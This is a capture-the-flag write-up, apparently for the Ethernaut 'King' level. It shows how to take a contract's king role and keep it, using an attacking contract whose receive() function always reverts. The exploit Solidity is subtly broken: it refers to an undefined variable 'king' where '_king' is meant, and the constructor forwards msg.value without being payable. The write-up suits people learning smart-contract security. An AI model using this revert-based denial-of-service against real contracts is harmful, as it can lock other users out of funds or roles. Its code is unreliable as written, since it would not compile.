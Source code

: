 ### Goals

Remain the one and only king

### Exploit

This contract sets the new king to everyone that sends more funds to the contract then the previous king. When we submit the instance the level will try to reclaim ownership, our goal is to not allow that.

Worth noticing is that when new king is being assigned the new prize is sent to previous king. We can leverage this behaviour to our advantage.

Remember about `fallback` and `recieve` functions? We can specify their behaviour at receiving the funds.

### Code

First let's figure out how much we need to send to become new King

in dev console

```code
+await contract.prize()
1000000000000000
```

Let's deploy following contract with Remix sending the prize + 1 wei

```code
contract KingOfKings {
    constructor(address payable _king) public {
        (bool success, ) = address(king).call{value: msg.value}("");
    }

    receive() external payable {
      revert("The crown is mine buahahaah!!");
  }
}
```

When the instance level will try to reclaim the king it will send funds to our smart contract, but we specified that our contract reverts on receiving the funds thus we will remain the only KING :)

Done!
